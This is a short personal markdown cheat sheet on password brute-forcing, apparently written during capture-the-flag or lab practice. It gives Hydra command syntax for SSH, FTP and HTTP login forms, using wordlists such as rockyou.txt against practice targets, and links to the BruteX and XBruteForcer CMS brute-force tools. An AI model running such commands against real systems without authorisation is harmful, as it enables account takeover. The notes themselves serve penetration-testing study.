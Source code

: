 # Hydra

* Hydra for SSH and FTP   
	```
	hydra -l [USER NAME] -p [PASSWORD] [IP ADDRESS] -t [NUMBER OF THREADS] [SSH OR FTP]
	```   

* To use a wordlist of usernames we can use the option `-L` and if you want a wordlist of password instead of just one use the option `-P`.

* I also found this code somewhere while I was researching (didn't really work with me). I'm documenting it here in case I needed to use some other time and it came into handy   
```
hydra -l admin -P /home/kali/mywordlist ignition.htb http-port-form "/admin?form_key=uCAJwNW5TywTQ3U8&login%5Busername%5D=^USER^&login%5Bpassword%5D=^PASS^"

//or this one   

hydra -l admin -P /usr/share/wordlists/rockyou.txt testasp.vulnweb.com http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^USER^&tfUPass=^PASS^:S=logout" -vV -f

//or this  

hydra -l admin -P /home/kali/Documents/cloned_reps/SecLists/Passwords/2020-200_most_used_passwords.txt -vV -f -t 5 10.129.157.36 http-post-form "/\\login:j_username=^USER^&j_password=^PASS^:loginError"
```  

	
### BruteX   
* Can be used to bruteforce passwords.
* Check out the code on Github through <a href="https://github.com/1N3/BruteX">this link</a>

### XBruteForcer   
* To bruteforce certain Content management systems. Taken from the official github page "Brute Force Tool 🔓 WordPress , Joomla , DruPal , OpenCart , Magento".
* Check out the github page <a href="https://github.com/Moham3dRiahi/XBruteForcer">here</a> .


<!--@nested-tags:brute_force/hydra-->